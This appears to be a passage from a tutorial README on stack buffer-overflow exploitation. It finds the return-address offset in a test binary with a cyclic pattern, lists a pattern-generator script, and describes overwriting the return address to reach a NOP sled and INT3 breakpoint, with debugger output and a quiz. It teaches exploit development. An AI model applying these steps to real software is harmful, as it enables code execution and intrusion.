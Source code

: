  * Our pattern `Aa0A` found in the stack at address `0x`.
 * The address that's executed is at offset `1028` in the pattern.
 * The pattern ends at `1447 + 4 = 1551`.
 
> Is it possible to write shellcode to the stack?
  `fuzz4.py` will try to execute some code...

### .. Code for `fuzz3.py`

```python

from pattern import createPattern

position = 1448
sizeOf_dword = 4
sizeOf_char = 1
maximum = position + sizeOf_dword - sizeOf_char
pattern = createPattern(maximum)

with open('pattern.dat', 'w') as f:
	f.write(pattern)

```

---

## `fuzz4.py`

### .. Test

 * Let our pattern start with a nop sled 0x90 up to, and add a breakpoint 0xCC at, offset 1027.
 * Writing the address of our pattern start to the stack at offset 1028.
 * Execute code?!
 * ...
 * Profit!
 
```
> fuzz4.py
> ImmunityDebugger.exe cat.exe pattern.dat
```
 
### .. Result

```
771A1AD7   [22:45:17] Single step event at ntdll.771A1AD7
00401000   [22:45:22] Program entry point
0019FE57   [22:45:28] INT3 command at 0019FE57 <-- !!! 0xCC INT3 COMMAND !!!
```

### .. Question

 * What caused our address at offset 1028 to be executed?
 
   1. Writing an address to the stack which is used in a call instruction.
   2. Writing an address to the stack which is a return address.
   3. Writing code to the stack that further executes the stack.

